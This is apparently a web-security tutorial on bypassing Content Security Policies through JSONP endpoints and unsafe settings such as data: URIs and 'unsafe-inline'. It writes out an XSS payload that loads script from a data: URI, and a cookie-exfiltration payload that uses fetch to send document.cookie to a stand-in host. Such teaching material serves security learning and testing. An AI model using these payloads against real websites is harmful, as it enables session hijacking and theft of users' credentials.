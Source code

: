 # Bypassing the Content Security Policy

## Overview
Since we now know how to create content security policies, let's learn how to find bypasses for them.

If you're looking for a quick way to check if your policy has any potential bypass vectors in it, I would recommend using Google's CSP Evaluator. It's able to detect various mistakes in any CSP configuration.

## JSONP Endpoints
Some sites may serve JSONP endpoints which call a JavaScript function in their response. If the callback function of these can be changed, they could be used to bypass the CSP and demonstrate a proof of concept, such as displaying an alert box or potentially even exfiltrating sensitive information from the client such as cookies or authentication tokens. 

A lot of popular websites serve JSONP endpoints, which can be usually used to bypass a security policy on a website that uses their services. The JSONBee repo (https://github.com/zigoo0/JSONBee) lists a good amount of the currently available JSONP endpoints that can be used to bypass a website's security policy.

## Unsafe CSP Configurations
Some sites may allow loading of resources from unsafe sources, for example by allowing data: URIs or using the 'unsafe-inline' source. For example, if a website allows loading scripts from data: URIs, you can simply bypass their policy by moving your payload to the src attribute of the script, like so: <script src="data:application/javascript,alert(1)"></script>

## Exfiltration
To exfiltrate sensitive information, your client needs to connect to a webserver you control. For our purposes, we can use a free service such as Beeceptor to receive the information via the path of the request. If you have access to a paid service such as Burp Collaborator, you can use this instead.

If the website you're exploiting allows AJAX requests (via connect-src) to anywhere, you can create a fetch request to your server like so: <script>fetch(`http://example.com/${document.cookie}`)</script> When the script is triggered on the victim's machine, you'll see their cookies show up in your access log. 

